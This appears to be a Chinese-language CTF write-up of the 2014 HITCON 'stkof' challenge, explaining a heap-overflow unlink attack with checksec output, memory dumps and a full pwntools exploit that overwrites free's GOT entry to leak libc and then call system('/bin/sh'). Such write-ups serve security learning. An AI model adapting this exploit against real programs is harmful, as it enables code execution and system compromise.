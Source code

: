 
title: 2014 HITCON stkof (Unlink)

date: 2018-03-28 21:23:18

categories: 
- CTF
- unlink

## 查看信息

```shell
$ checksec stkof 
[*] '/home/pwn/\xe6\xa1\x8c\xe9\x9d\xa2/stkof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

可以看出，程序是 64 位的，主要开启了 Canary 和 NX 保护。



## 程序分析

1. 分配指定大小的内存，并在bss段记录对应 chunk 的指针，假设其为global。这里需要注意 ， buf[1] 为第一个。



![img-1](HITCON2014-stkof/img-1.jpg)



1. 根据指定索引，以及指定大小向指定内存处，读入数据。可见，这里存在堆溢出的情况，因为这里读入字节的大小是由我们来控制的。
2. 根据指定索引，释放已经分配的内存块。
3. 没有什么作用。

**值得注意的是，由于程序本身没有进行 setbuf 操作，所以在执行输入输出操作的时候会申请缓冲区。这里经过测试，会申请两个缓冲区，分别大小为1024 和 1024。**

**初次调用 fgets 时，malloc会分配缓冲区 1024 大小。**



## 思路

使用pwntools，利用unlink漏洞，改写free为puts，实现任意地址泄露。然后使用DynELF找到system，再将free替换为system，执行system(‘/bin/sh’)。



```python
from pwn import *
#context.log_level = 'debug'
sock = process('./stkof')

def add(len):
    sock.sendline('1')
    sock.sendline(str(len))
    sock.recvn(5)

def edit(index, content):
    sock.sendline('2')
    sock.sendline(str(index))
    sock.sendline(str(len(content)))
    sock.send(content)
    sock.recvn(3)

def delete(index):
    sock.sendline('3')
    sock.sendline(str(index))

#leak at least 1 byte then everything is OK
def peek(addr):
    edit(2, 'A'*16 + p64(addr))
    delete(1) # push(addr)
    str = sock.recvuntil('OK\n')
    result = str.split('\x0aOK')[0]
    if result == '':
        return '\x00'
    return result

#chunk list
bag = 0x602140  

add(0x48) #1
add(0x48) #2
add(0x100-8) #3
add(0x100-8) #4
add(0x100-8) #5

# 反汇编代码中表示 i++ ， 先相加在赋值 ，请看代码下面
# x 指向buf[2]
x = bag + 2*8
fd = x - 0x18
bk = x - 0x10

edit(2, p64(0) + p64(0) + p64(fd) + p64(bk) + 'C'*32 + p64(0x40) + '\x00')

#free后 buf[2] 可以写入 &buf[2]-3，请看代码下面
delete(3)
sock.recvn(3)

puts_plt = 0x400760
free_got = 0x602018
atoi_got = 0x602088
alarm_got = 0x602048
puts_got = 0x602020

#replace free by puts
edit(2, 'A'*16 + p64(free_got))
edit(1, p64(puts_plt)) 
# 为什么是puts_plt 而不是puts_got， 
# 根据延迟绑定技术， 我猜想是：
# 函数执行后 ，puts_plt 才是真正的函数执行代码的地址
# puts 没有执行过， 所以用 puts_plt


d = DynELF(peek, elf=ELF('./stkof'))
system_addr = int(d.lookup('system', 'libc'))

#write /bin/sh
edit(4, '/bin/sh\0')

#replace free by system
edit(2, 'A'*16 + p64(free_got))
edit(1, p64(system_addr))

#call system(/bin/sh)
delete(4) #system(/bin/sh)

sock.interactive()
```

第一次 free() 控制读写

0x602140 为 buf[0] 的位置，但是chunk list 开始保存的位置在0x602148 即 buf[1]。

0x602150 即 buf[2] 可以写入 0x0000000000602138 ， 覆盖 chunk lish 。

```
0x602140:	0x0000000000000000	0x00000000026b0020
0x602150:	0x0000000000602138	0x00000000026b04d0
0x602160:	0x00000000026b05d0	0x00000000026b06d0
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
```



## 参考：

https://blog.csdn.net/fuchuangbob/article/details/51649353

https://ctf-wiki.github.io/ctf-wiki/pwn/heap/unlink/#_3

http://yunnigu.dropsec.xyz/2017/02/24/%E5%BB%B6%E8%BF%9F%E7%BB%91%E5%AE%9A%E6%8A%80%E6%9C%AF%E5%8E%9F%E7%90%86/